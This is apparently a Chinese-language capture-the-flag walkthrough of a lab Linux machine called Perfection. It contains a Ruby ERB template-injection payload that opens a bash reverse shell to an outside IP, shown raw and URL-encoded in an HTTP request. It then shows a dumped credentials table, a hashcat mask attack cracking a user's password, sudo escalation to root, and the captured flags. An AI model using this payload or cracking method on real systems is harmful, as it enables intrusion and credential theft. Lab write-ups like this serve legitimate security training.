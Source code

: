 # Perfection

:::info

Difficulty: Easy

Operating System: Linux

:::

## 信息收集

## web 服务

TODO 添加探测细节

![img](img/image_20240323-102325.png)

使用 `Burp Suite` 进行抓包

```plaintext
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 161
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

category1=as&grade1=1&weight1=100&category2=as&grade2=1&weight2=0&category3=as&grade3=1&weight3=0&category4=as&grade4=1&weight4=0&category5=as&grade5=1&weight5=0
```

## SSTI - Ruby

结合网站所使用的框架 `WEBrick 1.7.0` 信息，尝试使用 SSTI 进行注入

[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

```plaintext
<%= system("bash -c'/bin/bash -i>& /dev/tcp/10.10.16.3/9999 0>&1'") %>
```

对其进行编码处理

```plaintext
abc%0a<%25=%20system("bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F9999%200%3E%261%27")%20%25>
```

然后发包

```plaintext
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 281
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

grade1=1&weight1=100&category2=as&grade2=1&weight2=0&category3=as&grade3=1&weight3=0&category4=as&grade4=1&weight4=0&category5=as&grade5=1&weight5=0&category1=abc%0a<%25=%20system("bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F9999%200%3E%261%27")%20%25>
```

即可收到回连的 shell

## User - susan

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[10:25:46] Welcome to pwncat 🐈!
[10:49:20] received connection from 10.10.11.253:55950
[10:49:29] 10.10.11.253:55950: registered new host w/ db
(local) pwncat$ back
(remote) susan@perfection:/home/susan/ruby_app$ whoami
susan
```

### flag - user

```shell
(remote) susan@perfection:/home/susan$ cat user.txt
ca7858ea6597f30db9a3318e380a8447
```

### 环境探测

```shell
(remote) susan@perfection:/home/susan$ ls -lah
total 48K
drwxr-x--- 7 susan susan 4.0K Feb 26 09:41 .
drwxr-xr-x 3 root  root  4.0K Oct 27 10:36 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .bash_history -> /dev/null
-rw-r--r-- 1 susan susan  220 Feb 27  2023 .bash_logout
-rw-r--r-- 1 susan susan 3.7K Feb 27  2023 .bashrc
drwx------ 2 susan susan 4.0K Oct 27 10:36 .cache
drwx------ 3 susan susan 4.0K Oct 27 10:36 .gnupg
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .lesshst -> /dev/null
drwxrwxr-x 3 susan susan 4.0K Oct 27 10:36 .local
drwxr-xr-x 2 root  root  4.0K Oct 27 10:36 Migration
-rw-r--r-- 1 susan susan  807 Feb 27  2023 .profile
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .python_history -> /dev/null
drwxr-xr-x 4 root  susan 4.0K Oct 27 10:36 ruby_app
lrwxrwxrwx 1 root  root     9 May 14  2023 .sqlite_history -> /dev/null
-rw-r--r-- 1 susan susan    0 Oct 27 06:41 .sudo_as_admin_successful
-rw-r----- 1 root  susan   33 Mar  9 02:04 user.txt
-rw-r--r-- 1 susan susan   39 Oct 17 12:26 .vimrc
```

在其中发现有 `.sqlite_history` 文件

同时，找到 `./Migration/pupilpath_credentials.db` 文件，下载到本地进行数据库读取

在数据库中，有 `user` 表

| id  |      name      |                             password                             |
| :-: | :------------: | :--------------------------------------------------------------: |
|  1  |  Susan Miller  | abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f |
|  2  |   Tina Smith   | dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57 |
|  3  |  Harry Tyler   | d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393 |
|  4  | David Lawrence | ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a |
|  5  | Stephen Locke  | 154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8 |

暂时无法确定哈希的格式

同时，找到一封邮件 `/var/spool/mail/susan`

```plaintext
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

### 密码哈希爆破

```shell
PS D:\_Tools\hashcat-6.2.6> .\hashcat.exe -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

得到密码之后，就可以访问 `sudo` 了

```shell
(remote) susan@perfection:/var/spool/mail$ sudo -l
[sudo] password for susan: <susan_nasus_413759210>
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

## User - root

```shell
(remote) susan@perfection:/var/spool/mail$ sudo -i
root@perfection:~# whoami
root
```

### flag - root

```shell
root@perfection:~# cat root.txt
49af4f82e3665ca3d0f3187ea474e5f8
```
